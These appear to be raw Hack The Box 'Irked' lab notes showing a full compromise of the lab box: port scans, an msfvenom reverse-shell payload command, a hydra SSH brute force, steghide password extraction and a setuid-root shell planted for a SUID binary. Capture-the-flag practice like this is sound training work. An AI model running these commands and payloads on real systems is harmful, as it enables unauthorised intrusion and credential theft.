

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          37980/udp   status
|   100024  1          40332/udp6  status
|   100024  1          51886/tcp6  status
|_  100024  1          52736/tcp   status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Discovered open port 8067/tcp on 10.10.10.117

kali@kali:~/htb/boxes/irked/10.10.10.117$ nc 10.10.10.117 8067
:irked.htb NOTICE AUTH :*** Looking up your hostname...

sudo bash -c 'echo "10.10.10.117 irked.htb" >> /etc/hosts'

6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
52736/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd

irssi

/connect 10.10.10.117 8067

id                                                                                                                                                            │
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd) 

python -c 'import pty;pty.spawn("/bin/bash")' 

[+] Backup folders                                                             
drwxr-xr-x 2 root root 4096 Jan 24 17:16 /var/backups              
total 4908                                                                     
-rw-r--r-- 1 root root    102400 May 11  2018 alternatives.tar.0      
-rw-r--r-- 1 root root     88342 Oct 30  2018 apt.extended_states.0   
-rw-r--r-- 1 root root      9890 May 15  2018 apt.extended_states.1.gz
-rw-r--r-- 1 root root      9868 May 11  2018 apt.extended_states.2.gz
-rw-r--r-- 1 root root      9727 May 11  2018 apt.extended_states.3.gz
-rw-r--r-- 1 root root       983 May 11  2018 dpkg.diversions.0   
-rw-r--r-- 1 root root       318 May 11  2018 dpkg.diversions.1.gz
-rw-r--r-- 1 root root       318 May 11  2018 dpkg.diversions.2.gz
-rw-r--r-- 1 root root       318 May 11  2018 dpkg.diversions.3.gz
-rw-r--r-- 1 root root       318 May 11  2018 dpkg.diversions.4.gz
-rw-r--r-- 1 root root       318 May 11  2018 dpkg.diversions.5.gz  
-rw-r--r-- 1 root root       318 May 11  2018 dpkg.diversions.6.gz  
-rw-r--r-- 1 root root       378 May 11  2018 dpkg.statoverride.0   
-rw-r--r-- 1 root root       245 May 11  2018 dpkg.statoverride.1.gz
-rw-r--r-- 1 root root       245 May 11  2018 dpkg.statoverride.2.gz
-rw-r--r-- 1 root root       245 May 11  2018 dpkg.statoverride.3.gz
-rw-r--r-- 1 root root       245 May 11  2018 dpkg.statoverride.4.gz
-rw-r--r-- 1 root root       245 May 11  2018 dpkg.statoverride.5.gz
-rw-r--r-- 1 root root       245 May 11  2018 dpkg.statoverride.6.gz
-rw-r--r-- 1 root root   1745379 Oct 30  2018 dpkg.status.0   
-rw-r--r-- 1 root root    493551 Oct 30  2018 dpkg.status.1.gz
-rw-r--r-- 1 root root    493551 Oct 30  2018 dpkg.status.2.gz
-rw-r--r-- 1 root root    493551 Oct 30  2018 dpkg.status.3.gz
-rw-r--r-- 1 root root    493551 Oct 30  2018 dpkg.status.4.gz
-rw-r--r-- 1 root root    491825 May 15  2018 dpkg.status.5.gz
-rw-r--r-- 1 root root    491825 May 15  2018 dpkg.status.6.gz
-rw------- 1 root root       989 May 14  2018 group.bak 
-rw------- 1 root shadow     834 May 14  2018 gshadow.bak
-rw------- 1 root root      2161 May 14  2018 passwd.bak
-rw------- 1 root shadow    1314 May 16  2018 shadow.bak        

https://packetstormsecurity.com/files/153312/Exim-4.91-Local-Privilege-Escalation.html

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=tun0 LPORT=1234 -f elf > shell.elf

total 16K
drwxr-xr-x  2 djmardov djmardov 4.0K May 15  2018 .
drwxr-xr-x 18 djmardov djmardov 4.0K Nov  3  2018 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt

file .backup
.backup: ASCII text
cat .backup 
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss

vhost {                                                                                                                                                       
        vhost           i.hate.microsefrs.com;                                                                                                                
        from {                                                                                                                                                
                userhost       *@*.image.dk;                                                                                                                  
        };                                                                                                                                                    
        login           stskeeps;                                                                                                                             
        password        moocowsrulemyworld;                                                                                                                   
};      

        password "f00Ness";
        password "f00";

https://forums.unrealircd.org/viewtopic.php?t=1614

https://raw.githubusercontent.com/cloudposse/unrealircd/master/default.conf

/var/log/unrealircd/server.log

download /var/www/html/irked.jpg

steghide extract -sf irked.jpg
UPupDOWNdownLRlrBAbaSSss

kali@kali:~/htb/boxes/irked/10.10.10.117$ steghide extract -sf irked.jpg 
Enter passphrase: 
wrote extracted data to "pass.txt".

kali@kali:~/htb/boxes/irked/10.10.10.117$ /usr/local/bin/hydra -L users.txt -P passwords.txt ssh://10.10.10.117
Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-25 11:26:45
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 15 tasks per 1 server, overall 15 tasks, 15 login tries (l:3/p:5), ~1 try per task
[DATA] attacking ssh://10.10.10.117:22/
[22][ssh] host: 10.10.10.117   login: djmardov   password: Kab6h+m+bbp2J:HG
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-25 11:27:10

rm -rf /tmp/pwned*

[+] Mails (limit 0)                                                                                                                                                                                                                                                                                                         
262013    4 -rw-rw----   1 djmardov mail         3199 Jan 25 04:51 /var/mail/djmardov                                                                                                                                                                                                                                        
262013    4 -rw-rw----   1 djmardov mail         3199 Jan 25 04:51 /var/spool/mail/djmardov     

[+] Readable files belonging to root and readable by me but not world readable                                                                                                                                                                                                                                               
-rw-r----- 1 root dip 656 May 11  2018 /etc/chatscripts/provider                                                                                                                                                                                                                                                             
-rw-r----- 1 root dip 1093 May 11  2018 /etc/ppp/peers/provider     

-rwsr-xr-x 1 root   root       7.2K May 16  2018 /usr/bin/viewuser

video group

https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe

cat /dev/fb0 > /tmp/screen.raw
2048,1600

strings /usr/bin/viewuser | less

/tmp/listusers

djmardov@irked:/tmp$ cat listusers.c 
    int main(int argc, char **argv) {
    setuid(0);
    system("/bin/sh -i");
    return 0;
}

 gcc listusers.c -o listuser

djmardov@irked:/tmp$  /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2021-01-24 17:11 (:0)
djmardov pts/4        2021-01-25 05:30 (10.10.14.9)
# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
# 

